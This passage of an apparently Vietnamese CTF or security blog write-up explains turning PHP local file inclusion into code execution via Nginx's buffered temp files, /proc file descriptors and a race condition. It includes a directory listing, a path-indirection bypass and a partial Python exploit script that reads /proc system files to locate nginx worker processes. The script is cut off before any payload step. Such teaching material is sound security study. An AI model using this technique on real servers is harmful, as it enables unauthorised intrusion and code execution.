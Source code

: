 May mắn thay, PHP hiện nay thường được deployed thông qua PHP-FPM và Nginx. Nginx cung cấp một cơ chế  để quản lí requests body size gọi là [client body buffering](https://nginx.org/en/docs/http/ngx_http_core_module.html#client_body_buffer_size). Nếu client body lớn hơn một giá trị đã cấu hình trước thì sẽ bắt đầu tạo ra temporary files và ghi vào đó. Và tính năng này vô tình làm cho LFI2RCE trở nên khả thi 😬.

Temp file này sẽ được xóa ngay sau khi được xử lí bởi Nginx. Nhưng ta có thể lợi dụng `procfs` để tham chiếu nó thông qua race condition: 

```
/proc/34/fd:
total 0
lrwx------ 1 www-data www-data 64 Dec 25 23:56 0 -> /dev/pts/0
lrwx------ 1 www-data www-data 64 Dec 25 23:56 1 -> /dev/pts/0
lrwx------ 1 www-data www-data 64 Dec 25 23:49 10 -> anon_inode:[eventfd]
lrwx------ 1 www-data www-data 64 Dec 25 23:49 11 -> socket:[27587]
lrwx------ 1 www-data www-data 64 Dec 25 23:49 12 -> socket:[27589]
lrwx------ 1 www-data www-data 64 Dec 25 23:56 13 -> socket:[44926]
lrwx------ 1 www-data www-data 64 Dec 25 23:57 14 -> socket:[44927]
lrwx------ 1 www-data www-data 64 Dec 25 23:58 15 -> /var/lib/nginx/body/0000001368 (deleted)
```

> One cannot directly include /proc/34/fd/15 in this example as PHP's include function would resolve the path to /var/lib/nginx/body/0000001368 (deleted) which doesn't exist in in the filesystem. This minor restriction can luckily be bypassed by some indirection like: /proc/self/fd/34/../../../34/fd/15 which will finally execute the content of the deleted /var/lib/nginx/body/0000001368 file.
{: .prompt-tip  }

_Challenge: a simple [challenge](https://github.com/to016/CTFs/tree/main/PHP_LFI2RCE_exploit/php-lfi-with-nginx-assistance) for approach_

À một lưu ý nữa đó là cách này chỉ dùng được khi Nginx chạy với cùng user của PHP (thường là www-data).
Lí do thì mình có mail hỏi tác giả và họ rep như sau:

![rep](rep.png)

script exploit:
```py
#!/usr/bin/env python3
import sys, threading, requests

# exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance
# see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details

URL = f'http://{sys.argv[1]}:{sys.argv[2]}/'

# find nginx worker processes 
r  = requests.get(URL, params={
    'file': '/proc/cpuinfo'
})
cpus = r.text.count('processor')

r  = requests.get(URL, params={
    'file': '/proc/sys/kernel/pid_max'
})
pid_max = int(r.text)
print(f'[*] cpus: {cpus}; pid_max: {pid_max}')

nginx_workers = []
for pid in range(pid_max):
    r  = requests.get(URL, params={
        'file': f'/proc/{pid}/cmdline'
    })

    if b'nginx: worker process' in r.content:
        print(f'[*] nginx worker found: {pid}')
```
